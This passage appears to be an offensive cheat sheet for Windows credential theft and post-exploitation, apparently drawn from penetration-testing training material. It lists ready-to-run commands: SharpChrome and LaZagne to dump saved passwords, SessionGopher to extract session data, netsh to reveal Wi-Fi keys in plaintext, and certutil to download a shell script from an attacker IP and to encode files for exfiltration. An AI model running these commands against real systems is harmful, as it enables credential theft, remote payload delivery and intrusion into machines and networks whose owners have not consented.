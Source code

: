 #### Retrieve saved Chrome credentials
```cmd
.\SharpChrome.exe logins /unprotect
```
- Uses `SharpChrome` to extract and display saved Chrome credentials, decrypting them if necessary.

#### View LaZagne help menu
```cmd
.\lazagne.exe -h
```
- Shows the help menu for `LaZagne`, a tool for extracting stored passwords from a variety of applications.

#### Run all LaZagne modules
```cmd
.\lazagne.exe all
```
- Executes `LaZagne` to attempt extraction of credentials across all its supported applications and services.

#### Running SessionGopher
```powershell
Invoke-SessionGopher -Target WINLPE-SRV01
```
- Executes `SessionGopher`, a PowerShell tool for extracting saved session information from various applications, targeting a specific machine.

#### View saved wireless networks
```cmd
netsh wlan show profile
```
- Lists profiles for wireless networks previously connected to, which may include networks of interest or targets for further attacks.

#### Retrieve saved wireless passwords
```cmd
netsh wlan show profile ilfreight_corp key=clear
```
- Displays the plaintext password for a specified wireless network profile, revealing credentials for network access.

### Other Commands
#### Transfer file with certutil
```cmd
certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```
- Utilizes `certutil` to download a file from a remote server, bypassing some forms of network monitoring and defenses.

#### Encode file with certutil
```cmd
certutil -encode file1 encodedfile
```
- Encodes a file into a base64 format using `certutil`, potentially for obfuscation or data exfiltration purposes.
